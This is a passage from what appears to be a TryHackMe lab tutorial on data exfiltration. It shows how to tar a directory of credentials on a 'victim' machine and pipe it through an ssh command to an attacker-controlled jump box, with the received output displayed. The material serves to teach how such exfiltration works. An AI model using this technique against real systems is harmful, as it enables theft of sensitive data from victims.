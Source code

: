 In this task we will show how to use SSH protocol to exfiltrate data over to an attacking machine. SSH protocol establishes a secure channel to interact and move data between the client and server, so all transmission data is encrypted over the network or the Internet.

![Encrypted SSH communication channel](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/aa723bb0e2c39dfc936b135c4912d1cf.png)  

To transfer data over the SSH, we can use either the Secure Copy Protocol SCP or the SSH client. Let's assume that we don't have the SCP command available to transfer data over SSH. Thus, we will focus more on the SSH client in this task.  

As we mentioned earlier, an attacker needs to control a server, which in this case has an SSH server enabled, to receive the exfiltrated data. Thus, we will be using the AttackBox as our SSH server in this scenario. You can also use the JumpBox since it has an SSH server enabled.  

Let's assume that we have gained access to sensitive data that must be transmitted securely.  Let's connect to the victim1 or victim2 machine.

The data that needs to be transferred  

```markup
thm@victim1:~$ cat task5/creds.txt
admin:password
Admin:123456
root:toor
```

Let's use the same technique we discussed in the "exfiltration using a TCP socket" task, where we will be using the tar command to archive the data and then transfer it.

Exfiltration data from the victim1 machine  

```markup
thm@victim1:$ tar cf - task5/ | ssh thm@jump.thm.com "cd /tmp/; tar xpf -"
```

Let's break down the previous command and explain it:  

1. We used the tar command the same as the previous task to create an archive file of the task5 directory.
2. Then we passed the archived file over the ssh. SSH clients provide a way to execute a single command without having a full session.
3. We passed the command that must be executed in double quotations, "cd /tmp/; tar xpf. In this case, we change the directory and unarchive the passed file.

If we check the attacker machine, we can see that we have successfully transmitted the file.

Checking the received data  

```markup
thm@jump-box$ cd /tmp/task5/
thm@jump-box:/tmp/task5$ cat creds.txt
admin:password
Admin:123456
root:toor
```

# Exfiltrate using HTTP(S)
---
